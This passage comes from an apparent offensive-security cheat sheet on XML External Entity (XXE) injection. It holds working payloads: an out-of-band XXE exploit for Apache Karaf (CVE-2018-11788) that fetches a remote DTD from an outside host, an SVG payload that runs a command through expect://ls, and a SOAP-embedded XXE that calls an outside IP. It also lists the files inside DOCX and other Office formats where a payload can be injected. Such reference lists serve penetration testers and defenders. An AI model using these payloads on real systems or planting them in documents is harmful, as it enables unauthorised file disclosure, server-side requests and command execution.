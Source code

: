 ### XXE OOB with Apache Karaf

CVE-2018-11788 affecting versions:

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)

## XXE in exotic files

### XXE inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

### XXE inside SOAP

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

- /_rels/.rels
- [Content_Types].xml
- Default Main Document Part
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml
